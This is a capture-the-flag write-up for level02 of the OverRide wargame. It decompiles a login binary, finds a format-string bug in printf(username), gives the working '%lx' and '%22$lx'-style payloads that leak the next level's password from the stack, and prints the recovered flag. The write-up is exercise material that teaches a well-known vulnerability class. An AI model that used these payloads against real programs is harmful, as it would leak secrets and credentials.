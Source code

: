 This binary take 2 differents inputs from fgets on STDIN too.

	level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: test
	--[ Password: test
	*****************************************
	test does not have access!

When we reverse the program in Ghidra we can that the code open the level3 .pass, store it inside a variable and compares it with the password

```c
	local_10 = fopen("/home/users/level03/.pass","r");
	if (local_10 == (FILE *)0x0) {
	    fwrite("ERROR: failed to open password file\n",1,0x24,stderr);
	        // WARNING: Subroutine does not return
		exit(1);
	}
	sVar2 = fread(local_a8,1,0x29,local_10);
	...
	printf("--[ Password: ");
	fgets(local_118,100,stdin);
	puts("*****************************************");
	iVar1 = strncmp(local_a8,local_118,0x29);
	if (iVar1 == 0) {
	  printf("Greetings, %s!\n",local_78);
	  system("/bin/sh");
	  return 0;
	}
	printf(local_78);
  	puts(" does not have access!");
        // WARNING: Subroutine does not return
	exit(1);
```

The more important part in the code above is the **local_78** in printf, this function is vulnerable to format string attack. We will use the Username to get the password stored before by printing stack variable with %x format inside Username.

	level02@OverRide:~$ python -c 'print "%lx " * 80' | ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: --[ Password: *****************************************
	7fffffffe4f0 0 20 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe6e8 1f7ff9a08 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 1006c2520 0 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 does not have access!

There we can see a lot of hex numbers, *2a2a2a2a2a2a2a2a* is for the * etc, the flag will start at *756e505234376848* but after converting it in ascii char we can see that **unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXs** is not the same size ad usual flag, so we have lost something along the way.

The key is that the password take too much place to be printed right away, so we must only print the flag.

	level02@OverRide:~$ python -c 'print "%22$lx " + "%23$lx " +"%24$lx " +"%25$lx " + "%26$lx" ' | ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: --[ Password: *****************************************
	756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d does not have access!

We get this flag **unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M**, since the hex are printed in little endian format we must reverse each block of 8 char with a little python script.

```py
def reverse_blocks(s, block_size=8):
    # Split the string into blocks of 'block_size' length
    chunks = [s[i:i+block_size] for i in range(0, len(s), block_size)]
    
    # Reverse each block
    reversed_chunks = [chunk[::-1] for chunk in chunks]
    
    # Join the reversed blocks into a single string
    return ''.join(reversed_chunks)

# Example usage
input_string = "unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M"
output_string = reverse_blocks(input_string)
print(output_string)
```
Then we get the flag for the level03 !

